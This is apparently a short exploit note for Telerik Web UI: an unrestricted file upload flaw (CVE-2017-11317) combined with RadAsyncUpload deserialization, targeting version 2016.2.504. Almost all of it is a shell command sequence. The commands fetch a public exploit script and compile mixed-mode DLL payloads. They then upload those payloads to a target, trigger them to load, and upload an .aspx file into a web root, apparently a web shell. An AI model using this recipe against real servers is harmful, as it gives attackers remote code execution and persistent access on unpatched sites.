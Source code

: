 # Telerik Web UI Unrestricted File Upload (CVE-2017-11317) + Telerik Web UI RadAsyncUpload Deserialization 

## Telerik version: 2016.2.504

## Target
https://target

## Proxy
http://127.0.0.1:8080

## Command
[https://github.com/bao7uo/MixedUp](https://github.com/bao7uo/MixedUp)
```shell
curl -OL https://github.com/bao7uo/RAU_crypto/blob/master/RAU_crypto.py

"C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64\cl.exe" /clr /LD MixedAssembly.cpp -o MixedAssembly64.dll
"C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64\cl.exe" /clr load.cpp

# Upload
python RAU_crypto.py -P c:/users/public/documents/ 2016.2.504 MixedAssembly64.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
# Trigger
python RAU_crypto.py -L c:/users/public/documents/MixedAssembly64.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

# Upload
python RAU_crypto.py -P c:/users/public/documents/ 2016.2.504 MixedAssembly32.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
# Trigger
python RAU_crypto.py -L c:/users/public/documents/MixedAssembly32.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

# Upload aspx
python RAU_crypto.py -P C:\www\sites\ 2016.2.504 v.aspx https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
```
